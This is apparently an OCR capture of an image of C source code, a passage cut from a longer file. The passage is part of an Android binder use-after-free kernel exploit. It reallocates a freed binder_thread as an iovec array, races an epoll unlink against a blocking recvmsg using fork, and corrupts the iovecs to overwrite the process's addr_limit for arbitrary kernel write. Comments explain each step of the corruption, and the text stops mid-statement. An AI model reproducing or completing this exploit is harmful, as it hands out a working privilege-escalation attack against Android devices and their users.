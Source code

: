 ```c
            (uint64_t) ((uint8_t *) m_task_struct +
                        OFFSET_TASK_STRUCT_ADDR_LIMIT), // iovecStack[IOVEC_WQ_INDEX + 2].iov_base
            0xFFFFFFFFFFFFFFFE      // addr_limit value
    };
    //
    // Prepare the message
    //
    message.msg_iov = iovecStack;
    message.msg_iovlen = IOVEC_COUNT;
    //
    // Now link the poll wait queue to binder thread wait queue
    //
    linkEventPollWaitQueueToBinderThreadWaitQueue();
    //
    // We should trigger the unlink operation when we
    // have the binder_thread reallocated as iovec array

    // Now fork
    pid_t childPid = fork();
    if (childPid == 0) {
        //
        // child process
        // There is a race window between the unlink and blocking
        // in writev, so sleep for a while to ensure that we are
        // blocking in writev before the unlink happens
        //
        sleep(2);
        //
        // Trigger the unlink operation on the reallocated chunk
        //
        unlinkEventPollWaitQueueFromBinderThreadWaitQueue();
        //
        // Now, at this point, the iovecStack[IOVEC_WQ_INDEX].iov_len
        // and iovecStack[IOVEC_WQ_INDEX + 1].iov_base is clobbered
        //
        // Write rest of the data to the socket so that recvmsg starts
        // processing the corrupted iovecs and we get scoped write and
        // finally arbitrary write
        nBytesWritten = write(sock_fd[1], finalSocketData, sizeof(finalSocketData));
        if (nBytesWritten != sizeof(finalSocketData)) {
            ERR("\t[-] write failed. nBytesWritten: 0x%lx, expected: 0x%lx", nBytesWritten, sizeof(finalSocketData));
            exit(EXIT_FAILURE);
        }
        exit(EXIT_SUCCESS);
    }
    // parent process
    // I have seen some races which hinders the reallocation.
    // So, now freeing the binder_thread after fork.
    freeBinderThread();
    // Reallocate binder_thread as iovec array and
    // we need to make sure this recvmsg call blocks.
    // recvmsg will block after processing a valid iovec at
    // iovecStack[IOVEC_WQ_INDEX]
    ssize_t nBytesReceived = recvmsg(sock_fd[0], &message, MSG_WAITALL);
    // If the corruption was successful, the total bytes received
    // should be equal to length of all iovec. This is because there
    // are three valid iovec
    ssize_t expectedBytesReceived = iovecStack[IOVEC_WQ_INDEX].iov_len +
                                    iovecStack[IOVEC_WQ_INDEX + 1].iov_len +
                                    iovecStack[IOVEC_WQ_INDEX + 2].iov_len;
    if (nBytesReceived != expectedBytesReceived) {
```